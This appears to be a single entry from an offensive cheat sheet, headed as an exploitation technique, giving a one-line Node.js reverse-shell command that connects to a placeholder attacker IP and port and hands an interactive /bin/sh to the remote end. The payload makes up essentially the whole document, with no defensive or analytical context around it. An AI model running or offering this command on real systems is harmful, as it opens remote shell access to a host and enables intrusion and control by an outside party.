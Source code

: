 # [Exploitation] Reverse shell (net.Socket + spawn) --node
node -e 's=require("net").Socket();s.connect(<port>,"<attacker_ip>",()=>{p=require("child_process").spawn("/bin/sh",["-i"]);s.pipe(p.stdin);p.stdout.pipe(s);p.stderr.pipe(s);});'
